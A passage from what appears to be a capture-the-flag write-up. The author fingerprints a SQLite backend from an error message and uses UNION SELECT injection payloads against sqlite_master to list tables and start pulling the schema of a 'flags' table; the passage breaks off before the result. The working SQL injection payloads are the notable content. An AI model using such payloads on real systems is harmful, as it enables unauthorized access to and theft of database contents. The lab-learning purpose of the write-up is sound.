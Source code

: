 This was a huge hint: **MySQL and PostgreSQL wouldn't throw this exact message**, but **SQLite would**.

To confirm, I tried the SQLite equivalent:

```sql

UNION SELECT name FROM sqlite_master WHERE type='table' -- -

```

And it worked:

```json
json
CopyEdit
[["admin",""],["flags",""],["users",""]]

```

![image.png](images/image%2030.png)

Confirmed: the backend was running **SQLite**.

---

I targeted the `flags` table, since it's clearly where a flag would be hidden. But I needed column names first. In SQLite, the easiest way to get a table's structure is:

```sql

UNION SELECT sql FROM sqlite_master WHERE name='flags' -- -

```

It returned something like:

